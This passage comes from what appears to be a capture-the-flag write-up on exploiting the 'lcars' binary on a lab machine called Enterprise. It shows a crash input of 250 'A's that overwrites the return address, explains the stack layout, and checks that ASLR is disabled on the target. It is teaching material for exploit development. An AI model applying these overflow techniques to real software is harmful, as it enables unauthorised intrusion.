 ```

```

But with a long string:

```

oxdf@parrot$ python -c 'print("picarda1\n4\n" + "A"*250)' | ./lcars

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code: 

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

LCARS Bridge Secondary Controls -- Main Menu: 
1. Navigation
2. Ships Log
3. Science
4. Security
5. StellaCartography
6. Engineering
7. Exit
Waiting for input: 
Disable Security Force Fields
Enter Security Override:
Segmentation fault

```

What’s happening is that the buffer is stored on the stack, and the stack builds up with new objects getting lower addresses. When the `disableForcefields` function is called, first the return address is put on the stack, then some other stuff, and then 204 bytes for this buffer. When I send 250 As, it ends up overwriting the function return address with 0x41414141, which isn’t a valid address, and then the program crashes.

### Protections

#### ASLR

ASLR (address space layout randomization) is a protection that’s specific to the host, not the program, and the setting is stored in `/proc/sys/kernel/randomize_va_space`. On systems today, it’s rare to see it disabled, but Enterprise is an older machine, and it’s disabled (0):

```

www-data@enterprise:/$ cat /proc/sys/kernel/randomize_va_space 
0

```
